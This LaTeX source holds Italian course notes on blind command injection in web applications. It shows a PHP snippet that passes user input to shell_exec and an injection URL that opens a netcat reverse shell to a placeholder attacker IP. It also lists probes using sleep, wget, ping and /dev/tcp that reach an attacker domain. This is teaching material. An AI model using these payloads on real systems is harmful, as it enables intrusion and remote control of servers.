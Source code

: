 \documentclass{article}
\begin{document}
\subsubsection{Blind Command Injection}
Similmente alle Blind SQL Injection, dove l'attaccante non poteva il risultato delle query effettuate, nelle \textbf{Blind Command Injection} l'attaccante non può contare sulla visualizzazione a schermo	garantita da \verb|echo|. Supponendo di avere \verb|victim.site/blindsearch.php| affetta da Command Injection:
\begin{verbatim}
	$var = shell_exec("ack ”.$_GET[‘word’]);
	if (strlen($var) > 0)
		echo ("Something was found!”);
\end{verbatim}

L'attaccante può comunque exploitare la vulnerabilità visitando la pagina:
\begin{verbatim}
victim.site/search.php?word=test;+nc+<ip_attaccante>+<port>+-e+/bin/sh
\end{verbatim}
Il web server aprirà una \textbf{reverse shell} sulla macchina dell'attaccante.

\subsubsection{Ricercare la presenza di una Command Injection}
Per scoprire se un sito web è vulnerabile a Command Injection, sia normale che Blind, è buono utilizzare comandi più semplici:
\begin{itemize}
	\item \verb|sleep(3)| - Se il web server risponde alla nostra richiesta \textbf{in ritardo}, sappiamo che la Command Injection è possibile.
	
	\item \verb|wget https://dominio.attaccante/stringa| - Se l’attaccante vede arrivare \textbf{la richiesta dal web server}, la Command Injection è possibile.
	
	\item \verb|ping https://dominio.attaccante/| - Se l'attaccante vede \textbf{arrivare pacchetti dal web server}, la Command Injection è possibile.
	
	\item \verb|echo pwn3d > /dev/tcp/ip_attaccante/port| - Utilizzabile solo per Command Injection in bash, viene inviata la stringa “pwn3d” all’indirizzo e alla porta specificati.
\end{itemize}

Se il sito web non stampa a schermo il risultato della Command Injection, potrebbe essere necessaria una Blind Command Injection, si potrebbe usare \verb|Netcat|, un tool \textbf{open-source} per connessioni da \textbf{remoto}, tuttavia:
\begin{enumerate}
	\item Netcat potrebbe essere \textbf{disabilitato};
	\item Netcat è abilitato, ma l'attaccante \textbf{potrebbe non ricevere la connessione ugualmente}, a causa degli strumenti di protezione implementati dal web server attaccato.
	\item L’utilizzo di netcat \textbf{potrebbe sollevare degli alert}.
\end{enumerate}
\end{document}
